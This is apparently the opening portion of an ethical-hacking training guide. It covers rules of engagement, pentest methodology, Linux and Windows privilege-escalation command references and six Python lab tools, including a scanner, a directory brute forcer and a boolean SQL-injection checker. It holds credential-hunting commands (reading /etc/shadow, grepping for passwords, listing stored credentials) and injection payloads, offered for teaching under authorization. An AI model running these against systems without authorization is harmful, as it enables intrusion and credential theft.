



# Unleash Hacking — Ground to Hero (Ethical Hacker Master Guide)

> **Audience:** Beginners through intermediate practitioners building authorized offensive security skills.
> **Goal:** Become a **professional ethical hacker** — pentester, red teamer, or bug bounty researcher with calm methodology, deep tooling fluency, and report-ready discipline.
> **Format:** 17 parts (0–16), companion to **CYBERSEC-MASTER-GUIDE.md** and **NETWORKING-MASTER-GUIDE.md** — tables, diagrams, 15+ Python scripts, case studies, 24-month hero path.
> **Legal scope:** Every technique in this guide is for **authorized** engagements only.

---

## Table of Contents

- [Part 0: Rules of Engagement + Hero Path Overview](#part-0-rules-of-engagement--hero-path-overview)
- [Part 1: The Pro Hacker Mindset](#part-1-the-pro-hacker-mindset)
- [Part 2: OS Mastery for Hackers](#part-2-os-mastery-for-hackers)
- [Part 3: Python for Hacking Scripts](#part-3-python-for-hacking-scripts)
- [Part 4: Recon & OSINT Arsenal](#part-4-recon--osint-arsenal)
- [Part 5: Scanning & Enumeration](#part-5-scanning--enumeration)
- [Part 6: Web Application Hacking Tools](#part-6-web-application-hacking-tools)
- [Part 7: Exploitation Frameworks & Exploit Research](#part-7-exploitation-frameworks--exploit-research)
- [Part 8: Active Directory & Internal Network](#part-8-active-directory--internal-network)
- [Part 9: Password & Credential Attacks](#part-9-password--credential-attacks)
- [Part 10: Post-Exploitation & Pivoting](#part-10-post-exploitation--pivoting)
- [Part 11: Wireless, Social Engineering, Physical](#part-11-wireless-social-engineering-physical)
- [Part 12: Cloud Hacking (Authorized Assessment)](#part-12-cloud-hacking-authorized-assessment)
- [Part 13: C2, OPSEC & Anti-Forensics](#part-13-c2-opsec--anti-forensics)
- [Part 14: Lab Setup — Kali, Parrot, Docker, HTB/THM/VulnHub](#part-14-lab-setup--kali-parrot-docker-targets-htbtryhackmevulnhub-workflow)
- [Part 15: Ground to Hero Roadmap](#part-15-ground-to-hero-roadmap)
- [Part 16: Master Tool Cheat Sheet](#part-16-master-tool-cheat-sheet)

---
# Part 0: Rules of Engagement + Hero Path Overview

## CRITICAL: What "Pro Hacker" Means (Read First)

This guide teaches **ethical hacking** — the same technical skills used by **authorized penetration testers**, **red team operators**, and **bug bounty researchers** who operate **within legal boundaries**. A "pro hacker" in this document is **not** a criminal. A pro hacker is someone who:

| Trait | Pro (Authorized) | Amateur (Illegal) |
| --- | --- | --- |
| Authorization | Written Rules of Engagement (RoE), signed SOW, or platform scope | Scans random IPs "because they looked interesting" |
| Intent | Improve security posture, validate controls, find bugs for reward | Steal data, cause harm, brag on forums |
| Environment | Owned labs (HTB, TryHackMe, VulnHub), client networks under contract, in-scope bug bounty | School WiFi, ex-employer, "friend's server" |
| Mindset | Calm methodology — fearless because you trained | Reckless bravado — "I won't get caught" |
| Outcome | Professional report, remediation, retest | Felony charges under CFAA and equivalents worldwide |

> **Never Forget:** **"Fearless" means calm methodology in authorized engagements because you trained in labs — not illegal bravado.** Professionals feel confident because they have checklists, notes, and repeatable workflows — not because they ignore the law.

## Legal & Ethical Boundaries

Unauthorized computer access is a **crime** in virtually every jurisdiction. In the United States, the **Computer Fraud and Abuse Act (CFAA)** criminalizes accessing systems without authorization or exceeding authorized access. Similar laws exist globally: UK Computer Misuse Act, EU directives, Australia Criminal Code, and others.

| Activity | Legal? | Notes |
| --- | --- | --- |
| HTB / TryHackMe / VulnHub machine | Yes | Platform provides explicit authorization |
| Bug bounty target in program scope | Yes | Read scope; stay in bounds; no social engineering unless allowed |
| Signed penetration test contract | Yes | RoE defines IP ranges, methods, windows, contacts |
| Your own lab VMs and cloud account | Yes | You own the infrastructure |
| Scanning your employer without approval | **NO** | Employment does not imply authorization |
| "Just checking" a site you do not own | **NO** | No implied consent for security testing |
| Using stolen credentials | **NO** | Even in research — possession/use is criminal |
| Distributing weaponized malware | **NO** | This guide excludes RAT builders and malware distribution |

### Required Authorization Checklist

Before any technique in this guide leaves your isolated lab, confirm **all** of the following:

```text
[ ] Written authorization exists (contract, platform ToS, lab license, or asset ownership)
[ ] Scope document defines: IP ranges, domains, applications, excluded systems
[ ] Testing window and emergency contact are documented
[ ] Data handling rules are clear (PII, retention, destruction)
[ ] Destructive tests are explicitly approved or forbidden
[ ] You can prove authorization if questioned (save emails, PDFs, platform receipts)
```

### What This Guide Deliberately Excludes

| Excluded Topic | Reason |
| --- | --- |
| Weaponized malware / RAT builders | No legitimate educational need; enables harm |
| Instructions to attack random systems | Illegal and unethical |
| Credential stuffing against real users | Fraud; covered only as awareness for defense |
| Full exploit development for 0-days on production | Requires vendor coordination and legal review |
| Social engineering without RoE approval | Psychological harm; often out of scope |

## Companion Guides & Cross-References

| Topic | See Also |
| --- | --- |
| CIA triad, ATT&CK, legal foundations | CYBERSEC-MASTER-GUIDE.md — Part 1 |
| Linux fundamentals for security | CYBERSEC-MASTER-GUIDE.md — Part 2 |
| Wireshark, lab setup, Git for security | CYBERSEC-MASTER-GUIDE.md — Part 3 |
| TCP/IP, DNS, VPN, pivoting tunnels | CYBERSEC-MASTER-GUIDE.md — Part 4; NETWORKING-MASTER-GUIDE.md — Parts 2–7 |
| Cryptography for hackers | CYBERSEC-MASTER-GUIDE.md — Part 5 |
| OWASP Top 10 deep dive | CYBERSEC-MASTER-GUIDE.md — Part 6 |
| Blue team / detection awareness | CYBERSEC-MASTER-GUIDE.md — Part 9 |
| Cloud security assessment | CYBERSEC-MASTER-GUIDE.md — Part 10; NETWORKING-MASTER-GUIDE.md — Part 8 |
| Active Directory defensive view | CYBERSEC-MASTER-GUIDE.md — Part 14 |

## 24-Month Ground to Hero Path Overview

This roadmap takes you from **zero offensive experience** to **OSCP-ready / junior pentester / active bug bounty researcher** in approximately 24 months at 10–15 hours per week. Adjust pace based on prior Linux and networking knowledge (see companion guides).



| Phase | Months | Focus | Milestone |
| --- | --- | --- | --- |
| Foundation | 0–3 | Ethics, Linux/Windows CLI, networking, lab setup | Complete 10 easy HTB/THM rooms with notes |
| Web & Scripting | 4–8 | Burp, OWASP, Python tooling (Part 3) | 5 web app writeups; GitHub with 3 scripts |
| Network & AD | 9–14 | Nmap, SMB, LDAP, BloodHound basics | Complete AD lab (GOAD or Proving Grounds) |
| OSCP Prep | 15–20 | Buffer overflows, privesc, reporting speed | 30+ HTB machines documented |
| Hero | 21–24 | Bug bounty, advanced cloud, portfolio polish | OSCP pass or equivalent; 5 bounty submissions |

### Weekly Rhythm (Professional Habit)

| Day | Activity | Duration |
| --- | --- | --- |
| Mon | Theory: read one Part section; flashcard new terms | 45–60 min |
| Tue | Lab: one THM/HTB module or chapter lab | 60–90 min |
| Wed | Scripting: extend or rewrite one Part 3 tool | 60 min |
| Thu | Tool drill: nmap/Burp/BloodHound workflow repetition | 45 min |
| Fri | Writeup: document findings in report template | 45–60 min |
| Sat | Deep lab block: full machine or AD scenario | 3–4 hr |
| Sun | Review Never Forget boxes; plan next week | 30 min |

> **Never Forget:** Your career ends the day you test without authorization. **No technique is worth a felony record.** When in doubt, do not touch it — build a lab instead.

## How to Use This Guide

Read **Part 0 and Part 1** before anything else. **Part 2–3** build operating system and scripting fluency. **Parts 4–13** are domain depth in offensive methodology. **Parts 14–16** are lab workflow, career roadmap, and reference. Pair every offensive section with blue-team awareness from CYBERSEC-MASTER-GUIDE.md Part 9 — the best pentesters understand detection.



---

# Part 1: The Pro Hacker Mindset

## Methodology: The Professional Kill Chain

Professional pentesters do not "hack randomly." They follow a **repeatable methodology** aligned with industry frameworks (PTES, OWASP Testing Guide, NIST SP 800-115). The phases below apply to every authorized engagement — from a single HTB machine to a enterprise red team exercise.



| Phase | Goal | Key Question | Common Tools |
| --- | --- | --- | --- |
| Recon | Map attack surface | What exists? | Amass, theHarvester, Shodan |
| Scanning | Find live hosts and ports | What is reachable? | nmap, masscan, rustscan |
| Enumeration | Extract service details | What do services reveal? | enum4linux, smbclient, gobuster |
| Exploitation | Gain initial access | What vulnerability grants a foothold? | Metasploit, manual PoC, Burp |
| Post-Exploitation | Establish situational awareness | Where am I and what can I reach? | LinPEAS, WinPEAS, bloodhound |
| PrivEsc | Elevate privileges | How do I become admin/root? | GTFOBins, Potato exploits, misconfigs |
| Lateral Movement | Expand access | What else can I reach? | Impacket, chisel, Pass-the-Hash |
| Reporting | Communicate risk | What must be fixed and why? | Executive + technical report |

> **Never Forget:** Methodology beats tools. A junior with nmap and a checklist outperforms a senior with 200 tools and no notes.

## Note-Taking: Your Second Brain

Every pro maintains structured notes during engagements. On HTB, this means flags and methodology. In client work, this means **evidence-backed findings** with timestamps, commands, and screenshots indexed to report sections.

### Recommended Note Structure (Obsidian / Notion / CherryTree)

```markdown
# Engagement: [Client / HTB Machine Name]
## Authorization
- Scope: ...
- Dates: ...
- Emergency contact: ...

## Recon
| Target | Finding | Tool | Timestamp |
|--------|---------|------|-----------|

## Exploitation Path
1. [Step] — command — result — screenshot ref

## Findings Draft
### [CRITICAL] Unauthenticated RCE on ...
- CVSS: ...
- Evidence: ...
- Remediation: ...

## Flags / Objectives
- User: ...
- Root: ...
```

### Screenshot Discipline

| Capture | When | Filename Convention |
| --- | --- | --- |
| Initial foothold | First shell or proof of access | 01-foothold-timestamp.png |
| Privilege proof | id / whoami / net user admin | 02-privesc-proof.png |
| Sensitive data | Only if in scope; redact PII | 03-impact-redacted.png |
| Tool output | Key enumeration results | 04-enum-smb-shares.png |

## Fearlessness Through Preparation

Calm under pressure is not innate — it is trained. When a pro says they are "fearless" on an engagement, they mean:

| Fear Source | Amateur Reaction | Pro Response (Trained) |
| --- | --- | --- |
| Shell dies unexpectedly | Panic, random retries | Check listener, firewall, stable TTY upgrade checklist |
| Enumeration returns nothing | Assume dead end | Pivot: different wordlist, UDP scan, cred reuse, source review |
| Client watches live | Rush, skip notes | Narrate methodology; document every command |
| Time pressure (exam/OSCP) | Skip privesc enum | Run LinPEAS/WinPEAS immediately; follow checklist |
| Complex AD environment | Overwhelmed | BloodHound first; identify paths to DA |

### Pre-Engagement Mental Checklist

```text
1. Authorization confirmed and saved
2. Scope boundaries memorized (what is OUT of scope)
3. Tool versions updated in lab mirror of attack box
4. Note template open and timestamp sync verified (NTP)
5. Emergency stop procedure understood
6. Backup plan for connectivity (VPN, out-of-band channel)
```

## The OODA Loop for Hackers

Borrowed from military strategy, **OODA** (Observe, Orient, Decide, Act) keeps you adaptive when targets behave unexpectedly — common in real networks and CTF hard boxes.

| Step | Pentest Application | Example |
| --- | --- | --- |
| Observe | Gather new data from every command | gobuster finds /backup/ |
| Orient | Relate finding to scope and prior intel | /backup/ may contain credentials or configs |
| Decide | Choose next action with highest ROI | Fetch /backup/, grep for passwords |
| Act | Execute, log, capture evidence | curl, analyze, update notes |

## Case Study: Methodology on HTB "Lame" (Easy)

**Context:** Authorized HTB machine — classic intro box demonstrating outdated service exploitation. This walkthrough illustrates **process**, not copy-paste exploitation for unauthorized targets.

| Step | Action | Finding |
| --- | --- | --- |
| 1 | nmap -sC -sV 10.10.10.3 | Samba 3.0.20, vsftpd 2.3.4 |
| 2 | searchsploit samba 3.0.20 | Known RCE (CVE-2007-2447) |
| 3 | Verify with Metasploit / manual | Shell as root (misconfiguration era) |
| 4 | Document | Critical: unpatched SMB; recommend segmentation |

> **Never Forget:** Even on "easy" boxes, **write the report**. OSCP and job interviews care about your process, not just the flag.

## Professional Communication

Technical skill without communication fails audits. Your deliverables include:

| Deliverable | Audience | Content |
| --- | --- | --- |
| Executive summary | CISO, management | Risk in business terms; top 3 actions |
| Technical report | Engineers, IT | Steps to reproduce; CVEs; evidence |
| Finding sheet | Remediation owners | One finding per row with severity and fix |
| Retest letter | Compliance | Verified fixes with date |

---

# Part 2: OS Mastery for Hackers

Operating system fluency separates script kiddies from professionals. Cross-reference **CYBERSEC-MASTER-GUIDE.md Part 2** and **NETWORKING-MASTER-GUIDE.md Part 6**.

## Linux Command Reference for Pentest

| Command | Purpose | Example | Pentest Use |
| --- | --- | --- | --- |
| pwd | Print working directory | pwd | Orient after SSH pivot |
| cd | Change directory | cd /var/log | Navigate to log sources |
| ls -la | List all files with permissions | ls -la /tmp | Find world-writable dirs |
| find SUID | SUID binaries | find / -perm -4000 2>/dev/null | Privesc enumeration |
| find writable | World-writable files | find / -writable -type f 2>/dev/null | Cron/log abuse |
| grep | Search text | grep -r 'password' /var/www 2>/dev/null | Config credential hunt |
| /etc/passwd | Local users | cat /etc/passwd | UID 0, service accounts |
| /etc/shadow | Password hashes | sudo cat /etc/shadow | Offline crack in lab |
| id | User and groups | id | Proof of privesc |
| sudo -l | Allowed sudo | sudo -l | GTFOBins lookup |
| crontab -l | User cron | crontab -l | Writable script paths |
| /etc/crontab | System cron | cat /etc/crontab | Root cron misconfigs |
| ps aux | Processes | ps aux | grep root | DB creds in cmdline |
| ss -tulpn | Listening ports | ss -tulpn | Local services |
| lsof -i | Network connections | lsof -i :8080 | Identify web stack |
| curl | HTTP client | curl -s http://127.0.0.1/admin | Internal SSRF follow-up |
| wget | Download | wget http://lab/target -O /tmp/x | Lab-only transfers |
| nc | Netcat | nc -lvnp 4444 | Lab listener |
| ssh/scp | Remote access | ssh user@10.10.10.5 | Pivot with keys |
| getcap | Capabilities | getcap -r / 2>/dev/null | cap_setuid vectors |
| strings | Printable strings | strings /usr/bin/suspicious | Hardcoded secrets |
| file | File type | file upload.bin | Polyglot detection |
| env | Environment | env | grep -i pass | Leaked secrets |
| mount | Filesystems | mount | NFS no_root_squash |
| journalctl | Systemd logs | journalctl -u nginx --since today | Service failures |
| iptables -L | Firewall | iptables -L -n -v | Egress rules |
| ip a / ip route | Network stack | ip a; ip route | Pivot planning |
| tcpdump | Capture | tcpdump -i eth0 port 445 | SMB observation |
| strace | Syscalls | strace -e open,connect ./bin | Behavior analysis |
| uname -a | Kernel | uname -a | Exploit research (lab) |
| docker ps | Containers | docker ps -a | Escape surface |

### Linux Privesc Enumeration Checklist

```bash
id && sudo -l
find / -perm -4000 2>/dev/null
find / -writable -type d 2>/dev/null | head
getcap -r / 2>/dev/null
cat /etc/crontab; ls -la /etc/cron.*
ss -tulpn
grep -r password /var/www 2>/dev/null | head
last -5; w
env | sort
```

### /etc/passwd Field Reference

| Field | Meaning | Pentest Note |
| --- | --- | --- |
| 1 | Username | Login name |
| 3 | UID | 0 = root |
| 4 | GID | Primary group |
| 7 | Shell | /bin/bash vs nologin |

### Cron and SUID Abuse Patterns (Lab)

| Vector | Indicator | Check Command |
| --- | --- | --- |
| Writable script | 777 on root cron script | grep CRON /var/log/syslog |
| Wildcard | tar with * in cron | Review crontab -l |
| User cron | Unexpected entries | /var/spool/cron/crontabs/ |

```mermaid
%%{init: {'theme': 'base', 'themeVariables': {'primaryColor': '#D2691E', 'primaryTextColor': '#ffffff', 'primaryBorderColor': '#5D2E0C'}}}%%\nflowchart TB\n  S[SUID binary] --> G[GTFOBins lookup]\n  C[Writable cron] --> R[Root shell]\n  CAP[Capabilities] --> E[cap_setuid]
```

## Windows Command Reference for Pentest

| Command | Purpose | Example | Pentest Use |
| --- | --- | --- | --- |
| whoami /all | User, groups, privileges | whoami /all | SeImpersonate, SeBackup |
| systeminfo | Patch level | systeminfo | Missing KBs |
| ipconfig /all | Network | ipconfig /all | DNS domain |
| net user | Local users | net user | Admin accounts |
| net user /domain | Domain users | net user /domain | AD enum |
| net localgroup administrators | Local admins | net localgroup administrators | Membership |
| net share | SMB shares | net share | Hidden shares |
| net view /domain | Hosts | net view /domain | Domain computers |
| netstat -ano | Connections | netstat -ano | findstr LISTENING | Listeners |
| tasklist /svc | Processes | tasklist /svc | Service paths |
| sc query | Services | sc query state= all | Unquoted paths |
| schtasks | Scheduled tasks | schtasks /query /fo LIST /v | Writable actions |
| reg query Run keys | Autorun | reg query HKLM\...\Run | Persistence |
| icacls | ACLs | icacls C:\Program Files\App | Weak ACLs |
| findstr | Search files | findstr /si password *.config | Secrets in configs |
| Get-Process | PowerShell procs | Get-Process | Sort CPU -Desc | Loaders |
| Get-Service | Services PS | Get-Service | ? Status -eq Running | Surface map |
| Get-ChildItem -Recurse | File search | Get-ChildItem -Recurse -Include *.kdbx | KeePass hunt |
| Test-NetConnection | Port test | Test-NetConnection dc01 -Port 389 | LDAP reach |
| cmdkey /list | Stored creds | cmdkey /list | Saved passwords |
| nltest /dclist | DC list | nltest /dclist:corp.local | DC targeting |
| wevtutil | Event logs | wevtutil qe Security /c:10 /f:text | 4624/4625 |
| wmic product | Installed software | wmic product get name,version | Vuln versions |
| gpresult | GPO | gpresult /r | Restrictions |

```powershell
whoami /all
Get-Service | Where-Object Status -eq Running | Select Name,PathName
```

### Windows Privesc Quick Checks

| Check | Command | Finding |
| --- | --- | --- |
| Unquoted service path | wmic service get pathname | Writable path in quotes |
| AlwaysInstallElevated | reg query HKLM\\...\\Installer | MSI as SYSTEM |
| Stored creds | cmdkey /list | Runas with saved cred |
| SeImpersonate | whoami /priv | Potato-style privesc in lab |

## Case Study: Linux Privesc on HTB Networked

| Step | Action | Result |
| --- | --- | --- |
| 1 | Manual SUID find | Custom binary |
| 2 | Abuse writable path | Shell as root |
| 3 | Document | Report with remediation |

## Case Study: Windows Enum on HTB Access

| Step | Action | Result |
| --- | --- | --- |
| 1 | SMB + MSSQL enum | Database creds |
| 2 | Credential reuse | User shell |
| 3 | Token/credential abuse | Admin |

> **Never Forget:** Practice Linux commands daily on Kali — speed matters on OSCP.

---

# Part 3: Python for Hacking Scripts

Build tooling fluency with **15+ complete scripts**. Run only against **authorized lab targets**. See **CYBERSEC-MASTER-GUIDE.md Part 7** for additional scripting patterns.

> **Never Forget:** Every script includes authorization reminders. Extend them for your portfolio — employers hire builders.

## Script 1: Threaded Port Scanner

Use during authorized lab scans to map open TCP ports quickly. Threading reduces time on large port ranges.

```python
#!/usr/bin/env python3
"""Threaded TCP connect port scanner — AUTHORIZED TARGETS ONLY."""
import argparse
import socket
import sys
from concurrent.futures import ThreadPoolExecutor, as_completed

DEFAULT = [21, 22, 23, 25, 53, 80, 110, 143, 443, 445, 3306, 3389, 8080, 8443]
TIMEOUT = 0.8


def scan_port(host: str, port: int) -> tuple[int, bool]:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(TIMEOUT)
    try:
        return port, s.connect_ex((host, port)) == 0
    finally:
        s.close()


def parse_ports(spec: str) -> list[int]:
    out: set[int] = set()
    for part in spec.split(","):
        part = part.strip()
        if not part:
            continue
        if "-" in part:
            a, b = part.split("-", 1)
            out.update(range(int(a), int(b) + 1))
        else:
            out.add(int(part))
    return sorted(out)


def main() -> int:
    ap = argparse.ArgumentParser(description="Lab-only threaded port scanner")
    ap.add_argument("host", help="Target you own or have written authorization to test")
    ap.add_argument("-p", "--ports", default=",".join(map(str, DEFAULT)))
    ap.add_argument("-t", "--threads", type=int, default=50)
    args = ap.parse_args()
    ports = parse_ports(args.ports)
    print(f"[*] Scanning {args.host} ({len(ports)} ports, {args.threads} threads)")
    open_ports: list[int] = []
    with ThreadPoolExecutor(max_workers=args.threads) as ex:
        futs = {ex.submit(scan_port, args.host, p): p for p in ports}
        for fut in as_completed(futs):
            port, ok = fut.result()
            if ok:
                open_ports.append(port)
                print(f"[+] {port}/tcp open")
    print(f"[*] Found {len(open_ports)} open ports")
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

#### Usage (Lab Target)

```bash
# python3 script.py <lab-args>  # only on authorized lab
```


## Script 2: Subdomain Enumerator

Passive/active subdomain discovery against domains you own or have in-scope bug bounty authorization.

```python
#!/usr/bin/env python3
"""Subdomain enumerator via DNS brute force — authorized domains only."""
import argparse
import socket
import sys
from concurrent.futures import ThreadPoolExecutor, as_completed

DEFAULT_WORDLIST = [
    "www", "mail", "ftp", "admin", "dev", "staging", "api", "vpn", "portal",
    "test", "beta", "internal", "secure", "remote", "git", "jenkins", "db",
]


def resolve(sub: str, domain: str) -> tuple[str, list[str]] | None:
    fqdn = f"{sub}.{domain}"
    try:
        _, _, addrs = socket.gethostbyname_ex(fqdn)
        return fqdn, addrs
    except socket.gaierror:
        return None


def main() -> int:
    ap = argparse.ArgumentParser()
    ap.add_argument("domain", help="Base domain (you must be authorized)")
    ap.add_argument("-w", "--wordlist", help="Wordlist file (one label per line)")
    ap.add_argument("-t", "--threads", type=int, default=30)
    args = ap.parse_args()
    words = DEFAULT_WORDLIST
    if args.wordlist:
        words = [ln.strip() for ln in open(args.wordlist) if ln.strip() and not ln.startswith("#")]
    found = 0
    with ThreadPoolExecutor(max_workers=args.threads) as ex:
        futs = [ex.submit(resolve, w, args.domain) for w in words]
        for fut in as_completed(futs):
            res = fut.result()
            if res:
                fqdn, addrs = res
                found += 1
                print(f"[+] {fqdn} -> {', '.join(addrs)}")
    print(f"[*] {found} subdomains resolved")
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

#### Usage (Lab Target)

```bash
# python3 script.py <lab-args>  # only on authorized lab
```


## Script 3: HTTP Header Analyzer

Identify missing security headers and misconfigurations on web apps in scope.

```python
#!/usr/bin/env python3
"""HTTP security header analyzer — authorized URLs only."""
import argparse
import sys
import urllib.error
import urllib.request

SECURITY_HEADERS = {
    "strict-transport-security": "Enforces HTTPS (HSTS)",
    "content-security-policy": "Mitigates XSS",
    "x-frame-options": "Clickjacking protection",
    "x-content-type-options": "MIME sniffing protection",
    "referrer-policy": "Controls referrer leakage",
    "permissions-policy": "Feature policy for browser APIs",
    "cross-origin-opener-policy": "Cross-origin isolation",
    "cross-origin-resource-policy": "CORP restriction",
}


def fetch(url: str, timeout: int = 10) -> tuple[dict, str]:
    req = urllib.request.Request(url, headers={"User-Agent": "LabHeaderAnalyzer/1.0"})
    with urllib.request.urlopen(req, timeout=timeout) as resp:
        headers = {k.lower(): v for k, v in resp.headers.items()}
        return headers, resp.geturl()


def main() -> int:
    ap = argparse.ArgumentParser()
    ap.add_argument("url", help="HTTPS URL in scope")
    args = ap.parse_args()
    try:
        headers, final = fetch(args.url)
    except urllib.error.URLError as e:
        print(f"[!] Request failed: {e}")
        return 1
    print(f"[*] Final URL: {final}")
    print("[*] Security header audit:")
    for hdr, desc in SECURITY_HEADERS.items():
        val = headers.get(hdr)
        status = "OK" if val else "MISSING"
        print(f"  [{status}] {hdr}: {val or '-'} ({desc})")
    server = headers.get("server", "-")
    print(f"[*] Server banner: {server}")
    if "x-powered-by" in headers:
        print(f"[!] Information disclosure: x-powered-by={headers['x-powered-by']}")
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

#### Usage (Lab Target)

```bash
# python3 script.py <lab-args>  # only on authorized lab
```


## Script 4: Directory Brute Forcer

Discover hidden paths on authorized web applications using a wordlist.

```python
#!/usr/bin/env python3
"""HTTP directory brute forcer — authorized targets only."""
import argparse
import sys
import urllib.error
import urllib.request
from concurrent.futures import ThreadPoolExecutor, as_completed

DEFAULT_PATHS = [
    "admin", "login", "backup", "config", "uploads", "api", "test", "dev",
    ".git", ".env", "robots.txt", "sitemap.xml", "wp-admin", "phpmyadmin",
]


def probe(base: str, path: str, timeout: int) -> tuple[str, int | None]:
    url = base.rstrip("/") + "/" + path.lstrip("/")
    req = urllib.request.Request(url, method="GET", headers={"User-Agent": "LabDirBuster/1.0"})
    try:
        with urllib.request.urlopen(req, timeout=timeout) as resp:
            return path, resp.status
    except urllib.error.HTTPError as e:
        return path, e.code
    except urllib.error.URLError:
        return path, None


def main() -> int:
    ap = argparse.ArgumentParser()
    ap.add_argument("base_url", help="Base URL e.g. http://lab.local")
    ap.add_argument("-w", "--wordlist", help="Path wordlist file")
    ap.add_argument("-t", "--threads", type=int, default=20)
    ap.add_argument("--timeout", type=int, default=5)
    args = ap.parse_args()
    paths = DEFAULT_PATHS
    if args.wordlist:
        paths = [ln.strip() for ln in open(args.wordlist) if ln.strip()]
    hits = 0
    with ThreadPoolExecutor(max_workers=args.threads) as ex:
        futs = [ex.submit(probe, args.base_url, p, args.timeout) for p in paths]
        for fut in as_completed(futs):
            path, code = fut.result()
            if code and code != 404:
                hits += 1
                print(f"[+] /{path} -> HTTP {code}")
    print(f"[*] {hits} interesting responses (non-404)")
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

#### Usage (Lab Target)

```bash
# python3 script.py <lab-args>  # only on authorized lab
```


## Script 5: SQLi Checker (Lab-Safe Boolean)

Detect potential boolean-based SQL injection in **your own lab apps** (DVWA, WebGoat). Does not exfiltrate data.

```python
#!/usr/bin/env python3
"""Boolean-based SQLi checker for LAB applications only."""
import argparse
import sys
import urllib.parse
import urllib.request

TRUE_PAYLOAD = "' OR '1'='1"
FALSE_PAYLOAD = "' AND '1'='2"


def fetch_len(url: str, param: str, value: str, timeout: int = 8) -> int:
    parsed = urllib.parse.urlparse(url)
    qs = urllib.parse.parse_qs(parsed.query)
    qs[param] = [value]
    new_q = urllib.parse.urlencode(qs, doseq=True)
    test = urllib.parse.urlunparse(parsed._replace(query=new_q))
    req = urllib.request.Request(test, headers={"User-Agent": "LabSQLiCheck/1.0"})
    with urllib.request.urlopen(req, timeout=timeout) as resp:
        return len(resp.read())


def main() -> int:
    ap = argparse.ArgumentParser()
    ap.add_argument("url", help="URL with query param, e.g. http://lab/dvwa/vulnerabilities/sqli/?id=1")
    ap.add_argument("-p", "--param", default="id")
    args = ap.parse_args()
    base_len = fetch_len(args.url, args.param, "1")
    true_len = fetch_len(args.url, args.param, "1" + TRUE_PAYLOAD)
    false_len = fetch_len(args.url, args.param, "1" + FALSE_PAYLOAD)
    print(f"[*] Baseline length: {base_len}")
    print(f"[*] True payload length: {true_len}")
    print(f"[*] False payload length: {false_len}")
    if true_len != false_len and true_len != base_len:
        print("[!] Possible boolean SQLi — confirm manually with Burp; fix in dev")
    else:
        print("[*] No clear boolean difference detected")
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

#### Usage (Lab Target)

```bash
# python3 script.py <lab-args>  # only on authorized lab
```


## Script 6: JWT Analyzer

Parse and inspect JSON Web Tokens from authorized apps. Does not forge tokens without keys.

```python
#!/usr/bin/env python3
"""JWT analyzer — decode header/payload for authorized testing."""
import argparse
import base64
import json
import sys


def b64url_decode(data: str) -> bytes:
    pad = "=" * (-len(data) % 4)
    return base64.urlsafe_b64decode(data + pad)


def main() -> int:
    ap = argparse.ArgumentParser()
    ap.add_argument("jwt", help="JWT string from Burp or lab app")
    args = ap.parse_args()
    parts = args.jwt.split(".")
    if len(parts) != 3:
        print("[!] Expected header.payload.signature")
        return 1
    header = json.loads(b64url_decode(parts[0]))
    payload = json.loads(b64url_decode(parts[1]))
    print("[*] Header:")
    print(json.dumps(header, indent=2))
    print("[*] Payload:")
    print(json.dumps(payload, indent=2))
    alg = header.get("alg", "unknown")
    if alg.lower() == "none":
        print("[!] CRITICAL: alg=none — test rejection in lab")
    if alg.upper().startswith("HS") and not header.get("kid"):
        print("[*] Symmetric alg — test weak secrets in lab only")
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

